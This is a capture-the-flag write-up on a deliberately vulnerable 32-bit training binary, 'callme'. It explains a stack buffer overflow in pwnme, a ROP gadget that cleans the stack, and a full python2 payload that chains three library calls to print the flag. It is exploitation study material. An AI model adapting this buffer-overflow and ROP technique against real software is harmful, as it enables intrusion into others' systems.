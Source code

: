 # Useful challenge info
> ![[Pasted image 20231215182344.png]]
## Write-up:
![[Pasted image 20231217151601.png]]
As before, the `NX` bit is set and there are some interesting functions names.
Analysis in Ghidra shows `usefulFunction` calls the three external library functions mentioned in the challenge instructions. The instructions state that to win, the 3 external functions must be called with specific parameters in a specific order in order to decrypt the flag.
![[Pasted image 20231217152005.png]]
The function `pwnme` contains a buffer overflow vulnerability, which I can use to create a ROP chain on the stack to call each of the required functions (with their respective parameters) in the correct order.
```c
void pwnme(void)
{
  undefined local_2c [40];
  memset(local_2c,0,0x20);
  puts("Hope you read the instructions...\n");
  printf("> ");
  read(0,local_2c,0x200);
  puts("Thank you!");
  return;
}
```
Using `gdb-peda` I found the offset from the buffer to the return address of `pwnme` on the stack:
![[Pasted image 20231217152505.png]]
As in the previous challenge, the offset is 44 bytes.
Now, because I want to call 3 functions, each with arguments, I am going to need a way to properly set up the stack each time before the next function in the chain is called.
In the previous challenge, it was possible to reuse the `call system()` instruction, but in this case, reusing the `call callme_one` instruction would result in the wrong return address being set and execution returning to this point after `callme_one` is finished. This is a problem because I then need to call the other two `callme` functions. This means, in this case I can't use the existing `call` instructions and instead need to set up the stack manually.
In x86, when calling a function, the stack should look like:
```
address to jump to,
return address,
args
```
Because I need to call 3 functions, I need to do this 3 times. The problem, however, is that if I just set the return address to `callme_two`, its return becomes `arg1` and its first parameter becomes `arg2`, which is not correct. 
So, I will need some ROP gadget to clean up my stack by `pop`-ing the 3 parameters from the stack, before returning to the next function in the chain.
![[Pasted image 20231217163219.png]]
Using `ROPgadget`, I have found one gadget which pops 3 values from the stack and saves them in registers. I will use this gadget to clean my stack between each function call. It will remove the 3 parameters from the stack, and then `ret` to the next value on the stack, which will be my next function call.
For the addresses of each function I need to call, I will use the address of the "THUNK" functions for each of these, as the actual functions are external and loaded in at runtime. I found these addresses using Ghidra.
Putting all of this together, my exploit should look like:
```
44 bytes of junk

addr of callme_one # 0x080484f0
addr of ROP gadget # 0x080487f9
args:
	0xdeadbeef
	0xcafebabe
	0xd00df00d

addr of callme_two # 0x08048550
addr of ROP gadget
args

addr of callme_three # 0x080484e0
dummy addr # 0x00000000
args
```
I generate the payload like so:
```c
python2 -c 'print \
"\x00"*44 + \
"\xf0\x84\x04\x08" + \
"\xf9\x87\x04\x08" + \
"\xef\xbe\xad\xde" + \
"\xbe\xba\xfe\xca" + \
"\x0d\xf0\x0d\xd0" + \
"\x50\x85\x04\x08" + \
"\xf9\x87\x04\x08" + \
"\xef\xbe\xad\xde" + \
"\xbe\xba\xfe\xca" + \
"\x0d\xf0\x0d\xd0" + \
"\xe0\x84\x04\x08" + \
"\x00\x00\x00\x00" + \
"\xef\xbe\xad\xde" + \
"\xbe\xba\xfe\xca" + \
"\x0d\xf0\x0d\xd0" \
' > payload.txt
```
Executing `callme32` with this payload gives the following output:
![[Pasted image 20231217165300.png]]
As you can see, the ROP chain worked and the flag was successfully "decrypted" and printed, by chaining together 3 external functions with specific parameters.